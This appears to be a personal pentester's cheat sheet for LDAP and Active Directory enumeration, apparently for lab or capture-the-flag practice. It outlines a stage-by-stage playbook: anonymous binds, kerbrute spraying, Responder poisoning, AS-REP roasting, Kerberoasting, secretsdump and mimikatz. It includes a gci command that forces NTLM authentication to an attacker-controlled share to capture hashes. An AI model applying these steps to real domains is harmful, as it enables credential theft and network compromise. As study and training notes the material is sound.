 # ldap - Enumeration

## Keep in mind

   https://github.com/Andre92Marcos/escalations/blob/master/active_directory_attacks_enumeration.md
   https://github.com/Andre92Marcos/escalations/blob/master/ldap_security_enumeration.md

## When we dont have anything

### Do simple enum of services (RPC,SMB)

Use enum4linux-ng

   https://github.com/Andre92Marcos/tools/tree/master/enum4linux-ng


### Try to do an ldap anonymous bind

   ldapsearch -x -b "dc=example,dc=com"


### Use ldapdomaindump

https://github.com/Andre92Marcos/tools/tree/master/ldapDomainDump

### Use netexec

https://github.com/Andre92Marcos/tools/blob/master/netexec/README.md#ldap

## When we get a new password do a kerbrute passwordspray

https://github.com/AndreMIsidoro/tools/tree/master/kerbrute

## When we have access to target's network

Start responder to try to do some poisoning

   https://github.com/Andre92Marcos/tools/tree/master/responder

## If we have usernames and want to check if they are domain usernames

Enumerate users found to see if they pre authenticate to kerberos

   kerbrute userenum --dc <ip_to_domain_controller> -d <full_domain_name> <filename_with_usernames>


## When we have a domain username, no password, no shell

If we can make the target make a smb request back to us

   For example using sqlinjection, we can use responder to get hash and try to crack it
   https://github.com/Andre92Marcos/tools/tree/master/responder


Try to do some ASREProasting

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/ASREProasting.md

If we are successful we can also try to do some Kerberoasting no preauthentication

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/kerberoasting.md#kerberoast-no-pre-authentication

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound

## When we have a domain username and a password

We can request a TGT

   https://github.com/AndreMIsidoro/tools/blob/master/impacket/getTGT.md

Try to do some Kerberoasting

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/kerberoasting.md



## When we have a domain username, but no password, but we have a shell

Do a gci request to get the user hash (and use it in other protocols, and try to crack it), with responder running

   gci \\<mylocalhostip>\share\file #share and file dont have to exist

Use group3r

   https://github.com/Andre92Marcos/tools/tree/master/group3r

Use ADRecon

Use the snaffler tool

   https://github.com/Andre92Marcos/tools/tree/master/snaffler

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound


If our user have some special permissions run secretdump

   https://github.com/Andre92Marcos/tools/blob/master/impacket/secretdump.md

If we are not finding anythin with bloodhound

   Load powesploit PowerView.ps1 from:

      https://github.com/PowerShellMafia/PowerSploit/tree/dev

   And then run 

      Find-InterestingDomainAcl -ResolveGUIDS | ConvertTo-Json

   This might find relations that bloodhound missed

## When we have a TGT and there is certificate authentication in the domain

User certipy to find vulnerabilities (for example, after a shadow credentials attack)

https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/shadow_credentials.md
https://github.com/Andre92Marcos/tools/blob/master/certipy-ad/README.md#find



## When have a local Admin or domain Admin

Use mimikatz tool. (Also if we have user with SeDebugPrivilege)

   https://github.com/Andre92Marcos/tools/tree/master/mimikatz


## Other Tips

### Sync time with kerberos

To figure out the difference in time with the kerberos server:

   sudo ntpdate 10.129.127.130

To simulate the difference in time when executing a command:

   faketime -f '+7h' <command>